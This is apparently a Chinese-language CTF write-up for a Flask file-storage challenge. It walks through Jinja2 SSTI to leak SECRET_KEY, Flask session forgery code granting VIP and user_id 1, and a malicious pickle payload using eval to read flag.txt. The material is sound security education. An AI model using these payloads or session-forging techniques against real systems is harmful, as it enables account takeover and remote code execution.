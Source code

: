 # Write-Up

## SSTI

- 进入网站首页，`/home`，可以看到登录和注册功能
  - ![](image/home.png)
  - `/auth/login`
  - ![](image/login.png)
  - `/auth/register`
  - ![](image/register.png)
- 此外，还可以看到底边 copyright 信息中有一行：
  - `Built with Flask & Jinja2`
  - ![](image/copyright.png)

- 正常注册用户登录之后，显示欢迎界面
  - ![](image/registered.png)
  - `/file/`
  - ![](image/welcome.png)
  - 点击文件上传 `/upload`，可以看到一个文件上传的按钮 `Select File` 和一个 `Description` 文本输入框。
  - ![](image/upload.png)

> SSTI（Server-Side Template Injection）是一种服务器端的模板注入攻击，它利用了 **网站后端模板引擎的漏洞**。模板引擎用于将动态数据嵌入到HTML页面中，常见的模板引擎包括 **Jinja2**、Twig、Freemarker等。
> SSTI攻击的工作原理基于模板引擎的特性，这些引擎通常支持复杂的功能，如变量替换、函数调用和逻辑运算。如果开发者没有恰当地处理用户输入，攻击者可以注入恶意模板代码，利用模板引擎的功能执行服务器端的代码。

- 正常上传文件和添加描述可以看到，网站会回显用户输入的描述。
  - ![](image/upload1.png)
  - ![](image/uploaded1.png)
- <del>出于此网站是安全云盘涉及文件加解密先不考虑文件上传漏洞</del>，再此根据网站的底边栏目这个略显突兀的框架说明 :joy: 可以想到要对描述文本框进行注入尝试。
  - `{{ 4 * 4 }}` 验证漏洞存在性，漏洞存在：
  - ![](image/16.png)
  - 尝试一些系统命令注入，似乎没有反应？尝试 `{{ config }}`，可以看到网站的回显：
  - ![](image/secret_key.png)
  - 不难看出 `Il|l1i1|II|11l1I|1I1C0nGr@ts|i1iI11i1iIlili|I|||u_can_$et_AcCEss_T0||VIP_USER_upload||:)I|I|i|11llIlII|||1ii` 中的提示十分明显：**u can get access to vip user upload**，你可以利用 secret_key 获取 VIP 用户的权限。

## Flask Session 伪造

> 在 Flask 框架中，session 是用来在多个请求之间保存用户的数据。Flask 使用客户端侧的 session，这意味着 session 数据是存储在用户浏览器的 cookie 中的。这种方式让 Flask 的 session 实现相对简单，而且不需要服务器端存储，但它也需要确保数据的安全性和完整性。
> 数据加密：为了保护 session 数据不被篡改，**Flask 会使用一个密钥（SECRET_KEY）对数据进行签名。** 这个密钥应该是复杂的、不容易猜到的，因为安全性高度依赖于这个密钥的强度。

- 获取到 config 内的 SECRET_KEY 后，我们很自然地想到可以去伪造 session。
- 首先在 `F12` 开发者模式找到自己作为普通用户的 session：
  - `eyJjc3JmX3Rva2VuIjoiZjIyMzBjZjQ2MDM1N2Q2NzVkZjVmZjQ0NjA0NTJkNmNkMDdhZWRkMSIsImlzX3ZpcCI6MCwidXNlcl9pZCI6NH0.ZpP4ng.9wexVLL_z0keMw_Ard5C04yuRis`
  - ![](image/cookie.png)

```python
#!/usr/bin/env python3
import sys
import zlib
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b".", 1)
    payload, timestamp = payload.rsplit(b".", 1)

    decompress = False
    if payload.startswith(b"."):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception(
            "Could not base64 decode the payload because of " "an exception"
        )

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception(
                "Could not zlib decompress the payload before " "decoding the payload"
            )

    return session_json_serializer.loads(payload)


if __name__ == "__main__": 
    # 运行时需要输入一个参数
    print(decryption(sys.argv[1].encode())) 
```

- 对于 ``session`` 进行解码可得：
  - `{'csrf_token': 'f2230cf460357d675df5ff4460452d6cd07aedd1', 'is_vip': 0, 'user_id': 4}`
  - ![](image/de.png)

- 对于解析出的 `csrf_token`，编写构造 Session 的代码如下：

```python
from flask.sessions import SecureCookieSessionInterface

secret_key = "Il|l1i1|II|11l1I|1I1C0nGr@ts|i1iI11i1iIlili|I|||u_can_$et_AcCEss_T0||VIP_USER_upload||:)I|I|i|11llIlII|||1ii"


# 创建一个模拟的 Flask 应用对象并设置 SECRET_KEY：
class App(object):
    def __init__(self):
        self.secret_key = None


app = App()
app.secret_key = secret_key

# 创建一个 SecureCookieSessionInterface 实例
si = SecureCookieSessionInterface()
serializer = si.get_signing_serializer(app)
# 签名序列化器
session = serializer.dumps(
    {
        "is_vip": True,
        "csrf_token": "f2230cf460357d675df5ff4460452d6cd07aedd1",
        "user_id": 1,
    }
)
print(session)
```

- 执行代码即可得到伪造完成的具有 vip 权限的 Session
  - `eyJpc192aXAiOnRydWUsImNzcmZfdG9rZW4iOiJmMjM3MWY2MWI0NzM2NjFhY2RlMDFiODFhNDNlMjQyMWU0OTlmNDcyIiwidXNlcl9pZCI6MX0.ZpP9KA.JZqQJH-d41ZBUp8CS9gZiiz0GSg`
  - ![](image/session.png)

## 反序列化漏洞


- 获取到 `Session` 后，F12 打开开发者模式进行替换，刷新重新加载 `/home` 页面，可以看到多出了一个模块：**vip用户专属功能：可以优先和客服沟通哦~**
  - ![](image/session-vip.png)

- 同样是一个文本输入框和一个提交按钮，那么，会不会还是 SSTI 漏洞？尝试进行 `{{ config }}` 注入：
  - ![](image/submit-1.png)
  - 点击查看后回显是 `unquote_to_bytes() or pickle.loads() error! Please input again!`

1. `unquote_to_bytes()` - 这是一个通常用于 **解码 URL 编码** 的字节序列的函数。如果在解码过程中遇到无法识别或格式不正确的编码数据，可能会引发错误。

2. `pickle.loads()` - 这个函数用于反序列化 Python 对象，**即从字节序列中恢复 Python 对象**。如果提供给 pickle.loads() 的数据被损坏或不是有效的 pickle 格式，或者如果数据包含任何 pickle 安全问题，都会导致错误。


> 反序列化漏洞是一种安全漏洞，发生在当应用程序在反序列化处理不受信任的数据时未能正确验证或清理该数据。反序列化是将从文件、数据库或网络传输中得到的结构化数据流转换回对象的过程。如果恶意用户能够操纵这些数据流，他们可能会**注入不良代码或操作，这可能导致执行任意代码、绕过身份验证、进行远程代码执行**等危害。


也许这是一个很明显的提示，要求我们利用 URL 编码构造字节序列进行反序列化注入。根据提示构造以下代码，在反序列化时会执行一个打开并读取 `flag.txt` 文件内容的 Python 代码：


```python
import pickle
import builtins
import urllib.parse


class EvilPickle:
    def __reduce__(self):
        # 当反序列化时，这个函数会被调用
        # 它返回一个元组，其中包含一个可调用的对象和一个参数列表
        # 在这个例子中，我们返回eval函数和它应该执行的字符串
        return (builtins.eval, ("open('./flag.txt', 'r').read()",))


# 序列化EvilPickle实例
pickle_string = pickle.dumps(EvilPickle())
# print(pickle_string)
p = urllib.parse.quote(pickle_string)
print(p)
```

执行代码后我们可以得到攻击负载如下：

```text
%80%04%95%3A%00%00%00%00%00%00%00%8C%08builtins%94%8C%04eval%94%93%94%8C%1Eopen%28%27./flag.txt%27%2C%20%27r%27%29.read%28%29%94%85%94R%94.
```

将负载复制到留言板的文本框中进行提交，得到 flag：
  - `flag{flag_test}`
  - ![](image/flag.png)